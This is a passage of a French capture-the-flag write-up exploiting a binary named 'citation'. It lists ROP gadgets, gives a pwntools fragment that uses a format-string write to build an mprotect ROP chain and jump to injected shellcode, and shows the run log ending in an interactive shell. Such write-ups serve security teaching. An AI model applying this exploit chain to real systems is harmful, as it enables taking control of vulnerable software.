 ```txt
ROPgadget --binary citation | grep "pop rdi\|pop rsi\|pop rdx"
...
0x000000000040225d : pop rdi ; ret
0x00000000004128f9 : pop rsi ; ret
0x000000000047ce8b : pop rdx ; pop rbx ; ret
...
```
Comme prévu, on a le choix, beaucoup de gadgets sont disponibles!

```python
pop_rdi = 0x000000000040225d
pop_rsi = 0x00000000004128f9
pop_rdx_rbx = 0x000000000047ce8b
mprotect = 0x000000000042e070
...
    # Mprotecting the .bss section's page and jumping on it

    rop = {saved_rip : pop_rdi,
    saved_rip +  8 : payload_page,
    saved_rip + 16 : pop_rsi,
    saved_rip + 24 : 0x1000,
    saved_rip + 32 : pop_rdx_rbx,
    saved_rip + 40 : 0x7,
    saved_rip + 56 : mprotect,
    saved_rip + 64 : payload_area,
    }

    pwn.log.success("Building Mprotect's ROP chain and shelling a shell")
    write_fmt(pwn.fmtstr_payload(buffer_fmt_offset, rop))
```

Et résultat:

```txt
[*] '/home/kali/Desktop/404_Heap/citation'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib64/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/home/kali/Desktop/404_Heap/citation': pid 1242395
[*] Leaking stack address
[*] Saved RIP @ 0x7ffca5dde4a8
[*] Writing shellcode @ 0x4bd00c
[+] Building Mprotect's ROP chain and shelling a shell
[*] Switching to interactive mode
Vous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
...
haa\xb0\xe4ݥ\xfcVous remarquez des traces d'une citation qui semble avoir été effacée.
Vous vous ravisez temporairement d'écrire sur le livre en attendant d'en savoir davantage.
$ id
```